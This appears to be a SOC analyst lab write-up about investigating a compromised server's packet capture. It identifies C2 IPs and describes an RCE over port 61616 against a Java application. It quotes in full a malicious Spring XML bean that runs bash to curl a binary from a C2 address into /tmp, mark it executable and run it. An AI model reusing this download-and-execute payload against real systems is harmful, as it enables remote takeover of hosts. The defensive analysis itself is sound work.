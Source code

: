 # Incident Response: Malicious XML Payload Exploitation

### **Scenario**
During your shift as a tier-2 SOC analyst, you receive an escalation from a tier-1 analyst regarding a public-facing server. This server has been flagged for making outbound connections to multiple suspicious IPs. In response, you initiate the standard incident response protocol, which includes isolating the server from the network to prevent potential lateral movement or data exfiltration and obtaining a packet capture from the NSM utility for analysis. Your task is to analyze the PCAP and assess for signs of malicious activity.

**Elapsed Time:** `00:04:54`

---

### **Top IPs Identified**
| IP Address        | Location       | Description              |
|-------------------|----------------|--------------------------|
| 84.239.49.16      | Romania        | Unknown                  |
| 146.190.21.92     | Netherlands    | C2 Server                |
| 134.209.197.3     | Netherlands    | Victim                   |
| 128.199.52.72     | Netherlands    | Second C2 Server         |

### **Suspicious Port Traffic**
- **Port 443** (HTTP): 4,833 Packets
- **Port 61616**: Used to execute an RCE by exploiting a Java-based application

The investigation noted suspicious traffic over these ports, leading to further analysis.

---

## **1. Identifying the C2 Servers**
Upon reviewing the packet capture using Wireshark, connections to **`146.190.21.92:8000`** were observed. The server requested an XML file located at `/invoice.xml`, which contained malicious code. This XML file referenced a second IP address, **`128.199.52.72`**, which was initially marked as "clean" but was later identified as another Command and Control (C2) server.

The attacker used this infrastructure to distribute and execute a malicious payload.

---

## **2. Analysis of the Malicious XML Payload**
The payload was delivered through a malicious XML file hosted on **`146.190.21.92`**. The XML file was structured using the Spring framework and contained the following bean configuration:

```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
        </list>
    </constructor-arg>
</bean>

## **3. Identification of the Reverse Shell Executable**
The XML configuration initializes an instance of java.lang.ProcessBuilder, a standard Java class used to execute system commands. The method start() is invoked to execute a shell command (bash -c), which downloads a file named docker from the second C2 server at 128.199.52.72 and saves it in the /tmp directory.

The payload then changes the permissions of the file to make it executable and runs it. This tactic is a typical method used to gain initial access and control over a compromised host.
